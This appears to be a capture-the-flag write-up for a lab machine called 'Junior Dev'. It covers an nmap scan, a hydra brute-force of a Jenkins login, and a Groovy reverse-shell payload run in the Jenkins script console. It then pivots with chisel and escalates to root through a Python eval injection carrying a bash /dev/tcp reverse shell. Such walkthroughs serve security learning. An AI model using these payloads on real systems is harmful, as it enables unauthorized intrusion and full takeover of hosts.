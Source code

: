 # Junior Dev

***
## Difficulty = Medium

![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/cd3ad44f-1954-4968-91ef-3fd8d3b06b12)

***


Running our nmap scan we have :


```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-23 20:57 EDT
Nmap scan report for 10.150.150.38
Host is up (0.21s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 64:63:02:cb:00:44:4a:0f:95:1a:34:8d:4e:60:38:1c (RSA)
|   256 0a:6e:10:95:de:3d:6d:4b:98:5f:f0:cf:cb:f5:79:9e (ECDSA)
|_  256 08:04:04:08:51:d2:b4:a4:03:bb:02:71:2f:66:09:69 (ED25519)
30609/tcp open  http    Jetty 9.4.27.v20200227
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.85 seconds
nmap -p22,30609 -sCV 10.150.150.38
```


Nice, decided to check port `22/SSH` if there are any banners


![](https://i.imgur.com/BLyzO03.png)


Cool, No banners, let check out the port running on `30609/HTTP`


![](https://i.imgur.com/wXYfe9k.png)

We have a login page, Trying out **directory bruteforce** , i found some endpoints but they where not all worth it (Rabbit holes 🐇)

![](https://i.imgur.com/iQXXFe1.png)

Well i navigated to `/robots.txt` and we have this message - **"# we don't want robots to click "build" links"**, Looks like a clue to something 🤔

![](https://i.imgur.com/NGHmO0U.png)


I decided to **view-page source** of the Jenkins login page and i saw this particular [**"action="j_acegi_security_check"**](https://community.jaspersoft.com/questions/514519/about-acegi) which is more of like an entry point for authentication



![](https://i.imgur.com/vZLZE3i.png)



So i decided to take a look at this tryhackme forum [discussion](https://tryhackme.com/forum/thread/630f5aa391a3470044dd86f1) which led me to bruteforcing the login page with hydra, using the following syntax


```bash
$ hydra 10.150.150.38 -s 30609 -l admin -P /usr/share/wordlists/rockyou.txt  -V http-form-post '/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Logi
n:F=Invalid username or password'
```



**_Output :_**


![](https://i.imgur.com/1k9OoPk.png)


Now that we have Username and Password, we can go ahead and login


![](https://i.imgur.com/cxJ5DTw.png)


Next, Navigate to **Manage Jenkins** on the side menu bar

![](https://i.imgur.com/Vv198jR.png)

Scroll down and select select **Script console**

![](https://i.imgur.com/3Y43Y7Z.png)

Now start up your `netcat` listener on port `8044` and paste in this payload on the console and click **Run**


```
String host="10.66.66.246";
int port=8044;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

You should get your reverse shell back as **Jenkins**

![](https://i.imgur.com/m2N0Tcb.png)


### **Pivoting**

After much enumeration on finding password in config files, SUID, SUDO, capabilities etc nothing was found but running `netstat -ant` gives us a port `8080` listening on `127.0.0.1`

![](https://i.imgur.com/ZetKJio.png)


- Download chisel with following command

```bash
$ curl https://i.jpillora.com/chisel! | bash
```

- Send it to our target using `python` and `wget`

```bash
# Attacker
$ python3 -m http.server 80

# Target
$ wget ATTACKER-IP/chisel
```


- Now on attacker's machine start up chisel with the following command

```bash
$ chmod +x chisel
$ ./chisel server -p 8001 --reverse
```

- On target machine start up chisel with

```bash
$ chmod +x chisel
$ ./chisel client ATTACKER-IP:8001 R:8080:127.0.0.1:8080
```


![](https://i.imgur.com/80FEBaK.png)


Now we can navigate to `http://127.0.0.1:8080` on our browser and we have this :


![](https://i.imgur.com/HY7B7rK.png)


**Viewing Page-Source** we have a commented `img` tag


![](https://i.imgur.com/I6C8iH8.png)



Navigating to `/static/FLAG.png` we have **FLAG71**



![](https://i.imgur.com/jzLMFxs.png)



### **Privilege Escalation**

Running [pspy](https://github.com/DominicBreuker/pspy) on our target system we have a root process that is actively running at the server side of the website we have `http://127.0.0.1:8080`

![](https://i.imgur.com/MI0Ar3z.png)


Immediately, my mind went to [**python command injection**](https://vk9-sec.com/exploiting-python-eval-code-injection/) since this process is running a file called `untitled.py` with `/usr/bin/python`, we can then -:

- start up our listener

```bash
$ nc -lvnp 3000
```

- Inject the python payload in the first box on the website to get reverse shell


```python
__import__('os').system('bash -c "bash -i >& /dev/tcp/10.66.66.246/3000 0>&1" ')#
```


Then we got reverse shell as user **root**


![](https://i.imgur.com/Ck88NLU.png)



**_Things i would take note of :_**

- First of all **pivoting** isn't new to me, except for the fact that i had to edit my `/etc/proxychains4.conf` file in other to be able to have access to that specific port, Over here we just accessed it directly because we forwarded traffic from the local port `8080` on our machine to port `8080` on our attacker machine with the IP address `127.0.0.1` (localhost).

- Secondly, **Python Command Injection** seems new to me here and took me hours before i could figure it out, i once did something like this but never knew it was python command injection, it consists of using the `eval` built-in function which takes a single argument and can be a powerful tool for dynamic code execution.



**Have Fun**


![](https://media.tenor.com/qsdqhlumpMYAAAAC/anime-bankai.gif)



<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>


